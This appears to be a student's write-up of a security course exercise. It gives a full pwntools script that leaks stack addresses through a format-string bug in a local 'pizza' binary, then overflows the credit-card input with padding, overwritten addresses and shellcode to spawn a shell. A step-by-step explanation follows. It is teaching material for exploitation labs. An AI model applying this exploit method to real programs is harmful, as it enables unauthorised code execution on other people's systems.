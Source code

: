 # Control Flow Integrity Violation


### Code:

```
from pwn import *

binary = ELF('./pizza')
context(arch='amd64', os='linux', endian='little', word_size=64)

shellcode = asm(shellcraft.amd64.sh(), arch='amd64')
print("shellcode size: " + str(len(shellcode)))

input1 = b'%p ' * 15

# Start the program
p = process('./pizza')
print(str(p.recvline(), "latin-1"))
#p.sendline(b"Bruce")
p.sendline(input1)
leak = str(p.recvline(), "latin-1")
print(leak)
leak = leak.split(' ')

# number of pizza input
p.sendline(b"1")
print(str(p.recvline(), "latin-1"))
print(str(p.recvline(), "latin-1"))
print(str(p.recvline(), "latin-1"))
print(str(p.recvline(), "latin-1"))
print(str(p.recvline(), "latin-1"))
print(str(p.recvline(), "latin-1"))
print(str(p.recvline(), "latin-1"))

return_addr = p64(int(leak[7], 16))
return_addr_1 = p64(int(leak[7], 16) + 0x20)

# credit card input
#payload = b'A' * 128 + b'CCCCCCCC' + return_addr + shellcode
payload = b'A' * 128 + return_addr + return_addr_1 + shellcode

#print(hex(id(return_addr)))
#print(payload)
#print(len(payload))

# card number payload
p.sendline(payload)

print(str(p.recvline(), "latin-1"))
#print(str(p.recvline(), "latin-1"))

#p.wait()
p.interactive()

'''
core = p.corefile
rsp = core.rsp
rbp = core.rbp
rip = core.rip

print(f"rsp: {hex(rsp)}")
print(f"rbp: {hex(rbp)}")
print(f"rip: {hex(rip)}")

top_of_stack = core.read(rsp, 8)
top_of_stack_1 = core.read(rsp+8, 8)
top_of_stack_2 = core.read(rsp+16, 8)
print(f"top of stack: {top_of_stack.hex()}")
print(f"top of stack 1: {top_of_stack_1.hex()}")
print(f"top of stack 2: {top_of_stack_2.hex()}")

'''

```

### Design & Functionality:

- There are a lot of trial and error steps in this assignment. We start with the given Python script in the assignment description.
- We run the pizza program and see that it needs 3 inputs and print out a few messages with its lifecycle.
- We try to crash the program and become successful in the credit card input. We observe that the program shows a segfault error if we enter more than 136 characters as the credit card number. The base pointer should be the last 8 characters address and we need to find out what that address is.
- We obtain the shellcode that we are going to inject using `asm(shellcraft.amd64.sh(), arch='amd64')`.
- We use first `p.recvline()` to print out the welcome message.
- We send the first input line to the program as a bunch of `%p` to find the memory address of the base pointer. We deliberately crash the program by adding 1 more character (137 characters) than the threshold as the credit card number. As we inspect the output produced by the core file analysis, each time the address at location 7 is similar to the `rbp` address.
- We also see that the `rip` address is always 0x20 larger than the `rbp` address. So we capture the base pointer from location 7 and add 0x20 with it to get the `rip` address each time correctly.
- We use few `p.recvline()` to print the intermediate messages.
- Then we generate the card number payload by setting the padding (A * 128 bytes), the base pointer (8 bytes), the return address (8 bytes), and the shellcode (48 bytes), and then we inject it.
- We print one more rcvline() for the final message, use the interactive() function, and finally get the command line shell we are looking for.


